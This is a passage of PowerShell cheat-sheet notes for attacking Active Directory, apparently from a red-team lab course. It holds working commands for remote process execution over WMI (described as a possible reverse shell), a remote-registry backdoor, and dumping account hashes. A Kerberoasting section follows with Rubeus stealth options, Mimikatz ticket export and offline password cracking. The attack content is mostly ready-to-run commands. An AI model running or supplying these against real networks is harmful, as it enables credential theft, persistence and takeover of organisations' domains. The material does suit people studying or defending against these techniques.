 ```powershell
# Execute a process via WMI (maybe a reverse shell):
Invoke-WmiMethod -Class win32_process -Name Create -ArgumentList 'calc.exe' -ComputerName dcorp-dc

# Set access to remote registry for student11 (needs DAMP)
Add-RemoteRegBackdoor -Trustee student1 -ComputerName dcorp-dc -Verbose

# Retrieve hashes (machine, local and domain):
Get-RemoteMachineAccountHash -Computername dcorp-dc -Verbose
Get-RemoteLocalAccountHash -Computername dcorp-dc -Verbose
Get-RemoteCachedAccountHash -Computername dcorp-dc -Verbose
```


# Privilege Escalation

### Kerberoast

```powershell
# Kerberoast targets Service Account that are manually created (not the System Managed Service accounts)
# the reason is that their passwords are rarely changed and easier to crack
# The requirement here is to have a valid domain account

# Find user accounts used as Service accounts with PowerView
Get-DomainUser SPN           

# Or using AD module:
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

# Request a TGS with powershell for MSSQLSvc
Add-Type -AssemblyNAme System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.corp.corporate.local" 

# alternative TGS request with Rubeus (list accounts and ask TGS)
# /rc4opsec option is more stealth (only looks for account that only supports RC4_HMAC to avoid downgrade, which is easily detected)
Rubeus kerberoast /stats
Rubeus kerberoast /stats /rc4opsec
Rubeus kerberoast /user:svcadmin /simple
Rubeus kerberoast /user:svcadmin /simple /rc4opsec

# Alternative:
Invoke-Kerberoast -Identity svcadmin

# Check if the TGS has been granted
klist

# Export all Kerberos tickets
Invoke-Mimikatz -Command '"kerberos::list /export"'

# Crack the Service account password
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\3-40a10000-svcadmin@MSSQLSvc~dcorp-mgmt.corp.corporate.local-CORP.CORPORATE.LOCAL.kirbi
# Or with john (after krb2john) or hashcat (mode 13100)
```
